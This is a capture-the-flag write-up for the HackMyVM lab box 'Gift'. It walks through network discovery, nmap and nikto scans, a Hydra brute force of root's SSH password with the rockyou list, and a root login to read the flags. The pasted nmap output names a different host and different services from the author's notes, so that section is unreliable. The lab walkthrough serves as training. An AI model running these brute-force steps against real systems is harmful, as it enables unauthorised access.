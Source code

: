 ```yaml
---
title: "Gift"
date: 2024-02-21 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Brute Force, Hydra, Beginner, Privilage Escalation]
---
```


<strong>We will explore brute forcing a target with hydra.<strong>

![Alt Text](/img/gift/vm.png)
<a href="https://hackmyvm.eu/machines/machine.php?vm=Gift" target="_blank" rel="noopener noreferrer">vm link</a>




##### >> Make a new directory for machine and change to that directory
```shell
┌──(kali㉿kali)-[~]
└─$ cd Desktop/gift
                                                                             
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ 
```



#### >> Find our own IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip a            
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:21:b1:d0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.136/24 brd 192.168.0.255 scope global dynamic noprefixroute eth0
       valid_lft 6912sec preferred_lft 6912sec
    inet6 fe80::f913:6113:d2c9:4db2/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

#### >> Let's find the IP address of our target on our virtual network, we can do this with fping
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ fping -ag 192.168.0.136/24 2> /dev/null
192.168.0.1
192.168.0.115
192.168.0.136
192.168.0.142
192.168.0.147
192.168.0.161
```

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip=192.168.0.161
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ sudo nmap -sC -sV -T4 -A -O -p- $ip
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:49 EST
Nmap scan report for 192.168.0.142
Host is up (0.00064s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Quick Automative
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.64 ms 192.168.0.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
```
- Linux: Not yet known which distribution.
- Port 22: SSH (OpenSSH 8.3).
- Port 80: HTTP (nginx).
- Title: The site doesn't have a title (text/html).

#### >> Enumerate the service using WhatWeb

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ whatweb $ip                             
http://192.168.0.161 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx], IP[192.168.0.161], nginx
```

#### >> Let’s open the website in the browser
```
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ firefox $ip &                          
[1] 31479
```
![Alt Text](/img/gift/image1.png)

#### >> Let’s Nikto with target IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ nikto -h $ip          
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.0.161
+ Target Hostname:    192.168.0.161
+ Target Port:        80
+ Start Time:         2024-02-08 16:40:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2024-02-08 16:41:11 (GMT-5) (21 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- Nikto discovered something—an #wp-config.php file containing potential credentials. Let's investigate further.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ curl http://$ip/#wp-config.php#

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

#### >> With port 22 open, there is a possibility to attempt brute-forcing the root account using Hydra
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ hydra -l root -P ~/Desktop/wl/rockyou.txt $ip ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-08 16:49:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://192.168.0.161:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344244 to do in 1532:31h, 14 active
[22][ssh] host: 192.168.0.161   login: root   password: simple
[STATUS] 4781466.00 tries/min, 14344398 tries in 00:03h, 2 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-08 16:52:41
```
- -l   : login name
- -P : file path to wordlist

<br>
## Initial Access
<br>

#### >> Let’s login as root via ssh
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
The authenticity of host '192.168.0.161 (192.168.0.161)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.161' (ED25519) to the list of known hosts.
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# 
```
- Now that the connection is established, let's gather information about our identity, roles, and the system we are interacting with.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# whoami;id;host;ip a; pwd
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
-ash: host: not found
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 08:00:27:26:f2:0d brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.161/24 brd 192.168.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe26:f20d/64 scope link 
       valid_lft forever preferred_lft forever
/root
gift:~# 
```
#### >> Flags
```shell
gift:~# ls -l
total 8
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
gift:~# cat root.txt
####flag####
gift:~# cat user.txt
####flag####
gift:~# 
```
<br>
<center>pwned</center>